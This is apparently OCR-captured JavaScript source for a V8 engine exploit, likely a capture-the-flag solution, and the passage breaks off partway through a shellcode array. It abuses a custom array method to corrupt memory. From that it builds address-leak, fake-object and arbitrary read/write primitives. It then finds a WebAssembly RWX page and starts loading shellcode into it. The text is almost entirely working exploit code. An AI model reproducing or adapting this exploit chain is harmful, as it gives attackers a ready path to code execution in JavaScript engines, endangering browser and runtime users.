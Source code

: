 ```javascript
var obj = {"A":1};
var obj_arr = [obj, obj];

float_arr.whutset(50);

var float_arr_map = itof(ftoi(float_arr[4]) & 0xffffffffn);
console.log("[*] float_arr_map: 0x" + ftoi(float_arr_map).toString(16));
var obj_arr_map = itof(ftoi(float_arr_map) + 128n);
console.log("[*] obj_arr_map: 0x" + ftoi(obj_arr_map).toString(16));

function addrOf(obj) {
    obj_arr[0] = obj;
    float_arr[13] = itof(ftoi(float_arr_map) << 32n);
    let addr = Number(ftoi(obj_arr[0]) & 0xffffffffn);
    float_arr[13] = itof(ftoi(obj_arr_map) << 32n);
    return BigInt(addr);
}

function fakeObj(addr) {
    float_arr[12] = itof(0x4n) + itof(addr << 32n);
    float_arr[13] = itof(ftoi(obj_arr_map) << 32n);
    let fake = obj_arr[0];
    return fake;
}

var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];
console.log("[*] arb_rw_arr: 0x" + addrOf(arb_rw_arr).toString(16));

function arb_read(addr) {
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);
    return ftoi(fake[0]);
}

function arb_write(addr, val) {
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);
    fake[0] = itof(val);
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var wasm_trusted_data = arb_read(addrOf(wasm_instance) + 0x8n) >> 32n;
console.log("[+] trusted data: 0x" + wasm_trusted_data.toString(16));
var rwx = arb_read(wasm_trusted_data + 0x30n);
console.log("[*] rwx: 0x" + rwx.toString(16));

var shellcode = [
    0x480000000d3d8d48n,
    0x003bb8d23148f631n,
    0x6165722f050f0000n,
```